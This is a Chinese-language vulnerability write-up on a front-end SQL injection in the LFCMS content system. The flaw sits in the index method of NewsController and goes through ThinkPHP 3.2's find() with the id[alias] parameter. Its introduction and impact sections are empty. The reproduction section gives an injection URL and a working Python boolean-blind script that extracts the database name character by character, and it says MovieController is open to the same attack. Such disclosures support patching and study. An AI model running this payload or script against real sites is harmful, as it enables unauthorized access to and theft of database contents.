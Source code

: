 LFCMS NewsController.class.php 前台sql注入漏洞
==============================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

回到lfcms，漏洞起始点位于`/Application/Home/Controller/NewsController.class.php`中的`index`方法，代码如下

![1.png](./resource/LFCMSNewsController.class.php前台sql注入漏洞/media/rId24.png)

在代码第六行调用了`News`模型中的`detail`方法，跟进该方法

![2.png](./resource/LFCMSNewsController.class.php前台sql注入漏洞/media/rId25.png)

可以看到在第八行进而调用了`tp`的`find`方法，在该版本中`find`方法是可以进行注入的，同时参数`$id`是我们可控的，首先我们来看一下正常的输入情况(图中域名为本地搭建解析)

![3.png](./resource/LFCMSNewsController.class.php前台sql注入漏洞/media/rId26.png)

根据`tp3.2`的注入点构造一下语句，访问如下链接

    http://www.0-sec.org/index.php/Home/News/index/?id[alias]=where id=1 and 1--

页面与正常访问相比没有变化，查看一下数据库日志，看下后端数据库语句![4.png](./resource/LFCMSNewsController.class.php前台sql注入漏洞/media/rId27.png)

可以看到在`id`处已经可以进行`sql`语句的拼接，也就证明该处是存在可利用的注入点的，由于本套程序对于错误信息是有屏蔽的，在这里我们很难利用报错注入带出数据，在该处可以考虑使用布尔类型的盲注，两种回显状态如下

![5.png](./resource/LFCMSNewsController.class.php前台sql注入漏洞/media/rId28.png)

![6.png](./resource/LFCMSNewsController.class.php前台sql注入漏洞/media/rId29.png)

接着写一下脚本（以查询数据库名为例）

    import requests
    url = 'http://lfcms.com/index.php/Home/News/index/?id[alias]=where id=1 and '
    result = ''
    for i in range(1,50):
        print('-----------------------------')
        for j in range(32,127):
            payload = 'if((ascii(substr((select database()),{},1))={}),1,0)--'.format(i,j)
            temp = url+payload
            try:
                html = requests.get(temp,timeout=10)
                if 'tttest' in html.text:
                    result+=chr(j)
                    print(result)
                    break
            except:
                print('[-]error')

结果如下

![7.png](./resource/LFCMSNewsController.class.php前台sql注入漏洞/media/rId30.png)

相同原理的利用点还有很多，如位于`/Application/Home/Controller/MovieController.class.php`中的`index`方法的`id`参数，这里就不再重复分析了

参考链接
--------

> https://xz.aliyun.com/t/7844
